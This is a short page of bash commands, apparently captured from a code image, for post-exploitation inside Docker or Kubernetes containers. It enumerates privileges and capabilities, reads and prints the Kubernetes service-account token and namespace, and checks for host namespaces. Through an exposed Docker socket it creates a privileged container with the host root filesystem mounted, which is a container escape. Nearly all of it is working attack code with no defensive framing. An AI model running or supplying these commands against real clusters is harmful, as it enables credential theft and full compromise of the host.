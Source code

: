 ### Container Environment Analysis

```bash
# Check current container context
whoami
id
cat /proc/1/cgroup | grep -i docker
ls -la /var/run/secrets/kubernetes.io/serviceaccount/

# Check for privileged mode
test -c /dev/kmsg && echo "Privileged container detected"
test -d /host && echo "Host filesystem mounted"
mount | grep -E "(tmpfs|proc|sysfs)" | head -10

# Check capabilities
capsh --print | grep Current
cat /proc/self/status | grep Cap

# Environment variables enumeration
env | grep -E "(KUBERNETES|KUBE|SERVICE|PORT)" | sort

# Service account token extraction
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
echo "Token: $TOKEN"
echo "Namespace: $NAMESPACE"
```

### Host Network and PID Namespace Escape

```bash
# Check for host network namespace
ip route show | grep -q "default via" && echo "Host network namespace"

# Check for host PID namespace  
ps aux | grep -v grep | grep -c "\[" > /tmp/count
if [ $(cat /tmp/count) -gt 10 ]; then
    echo "Possible host PID namespace access"
fi

# Docker socket access
test -S /var/run/docker.sock && echo "Docker socket accessible"
if [ -S /var/run/docker.sock ]; then
    # List containers
    curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json
    
    # Create privileged container
    curl -s --unix-socket /var/run/docker.sock \
      -H "Content-Type: application/json" \
      -d '{"Image":"alpine","Cmd":["/bin/sh"],"Privileged":true,"HostConfig":{"Binds":["/:/mnt"]}}' \
      http://localhost/containers/create
fi
```
